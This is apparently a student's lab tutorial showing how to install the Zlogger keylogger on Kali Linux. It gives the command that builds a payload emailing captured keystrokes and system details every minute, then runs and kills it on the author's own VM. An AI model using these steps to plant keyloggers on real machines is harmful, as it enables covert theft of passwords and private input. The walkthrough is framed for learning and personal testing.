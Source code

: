 # Zlogger In Action
_Zlogger_ is a popular keylogging tool that's used primarily for learning and pentesting on personal networks. The creators have a [Github page](https://github.com/z00z/ZLogger) where we can easily download the tool. Their github page also contains a plethora of information that may not be included in this small tutorial. In this section, I will guide readers through my short experience with Zlogger in hopes of offering something interesting or useful.

I performed all of these commands using Kali-Linux. These commands may or may not differ slightly depending on factors like OS and python version currently installed. 

---
## Downloading Zlogger
To start, head over to the _Zlogger_ Github page linked above. Next, we can clone the repository. In my case I cloned the repository to my Kali virtual machine. 

![image](https://user-images.githubusercontent.com/46944661/117089562-798df200-ad1b-11eb-841a-698e883d7f0c.png)

After doing this, we'll have a new directory created on our machine. If we type 'ls', we SHOULD see the newly created _Zlogger_ directory. Inside this directory there's a file called 'install.sh'. In order to run it, we must make the file executable. Use the command 'chmod +x install.sh' to make it an executable, and then run the file using './install.sh'. This may take some time, let the process run, agree + confirm any popups and once it's done Zlogger will now be usable.

## Create Our Keylogging File
Let's familiarize ourselves with our new tool. Since Zlogger is a python based program, we must use 'python' followed by Zlogger.py and whatever flags we'd like to specify. Running the command 'python zlogger.py -h' displays a handy menu that we can read and learn how to use Zlogger.

![image](https://user-images.githubusercontent.com/46944661/117090613-6af50a00-ad1e-11eb-87a1-a1a35ef08b9b.png)

>**NOTE:** *When testing, it seems that in my case '-i' or INTERVAL was required to avoid an error being thrown, despite the above image stating that interval is optional.*
*It's strongly recommended before continuing to create an email account for the sole purpose of using this keylogger else you run the risk of flooding your email address with the logs Zlogger sends.*

To get our keylogger file output to us, we must provide information to the tool. I typed 'python3 zlogger.py -i 60 -l -e [EMAILGOESHERE] -p [EMAILPASSWORDGOESHERE] -o ThisIsATest' and then hit enter. The -i flag indicates an interval of 60 seconds, which means every minute we will receive a new log file emailed to us. The -l flag tells Zlogger that we'd like the output file to be for Linux machines. The -e and -p flags should be for the emailaddress and password for the email address, while -o is the name of the output file. After hitting enter, this is what we're met with.

![image](https://user-images.githubusercontent.com/46944661/117171177-43d72080-ad90-11eb-8ef1-a1aafa8ed6d3.png)

Another use of 'ls' shows that our output file was created successfulyl. Although Zlogger stated that the -l flag would create a Linux executable, I had to execute 'chmod +x ThisIsATest' in order to be able to run the keylogger on my machine.

## Using The Keylogger File
So we've got our output file - now we've got to run it on our machine. I highly recommend running the file on a separate machine, although I chose to run it on my current virtual machine I've created for testing purposes. To start the keylogger, all we have to do is type 'python3 [OUTPUTFILENAME]' and the keylogger starts up. 

![image](https://user-images.githubusercontent.com/46944661/117227229-f54f7380-addb-11eb-91d6-03b6c354f0dc.png)

In the screenshot above, I typed some things just so I can have logs to review once they're sent to my email address. After waiting a couple minutes, we can see that log files have been delivered. The next screenshot shows the first log file, which is basically a confirmation that it's running and grabs the OS of the machine it's being run on as well as the name of the machine & the user.

![image](https://user-images.githubusercontent.com/46944661/117227406-5b3bfb00-addc-11eb-809b-92b7d0f43fa8.png)
![image](https://user-images.githubusercontent.com/46944661/117227438-68f18080-addc-11eb-890c-a5cc39460d7f.png)
![image](https://user-images.githubusercontent.com/46944661/117227499-89b9d600-addc-11eb-8afb-ca2bd2546945.png)

The remaining screenshots showcase the log files being sent every minute, as well as the logs that captured my keystrokes. 
We can also confirm as a user of the machine that we have a keylogger running by using the 'ps' command. The next screenshot shows 'python3' running, which is the process that's using python to capture keystrokes. Since I no longer wish to have the keylogger running on my machine, I need to use the 'kill' command followed by the process ID (PID) which in this case is 22595. After killing the process, I received a confirmation message stating that the process has been terminated.

![image](https://user-images.githubusercontent.com/46944661/117227699-0fd61c80-addd-11eb-9453-b72f18d9d279.png)

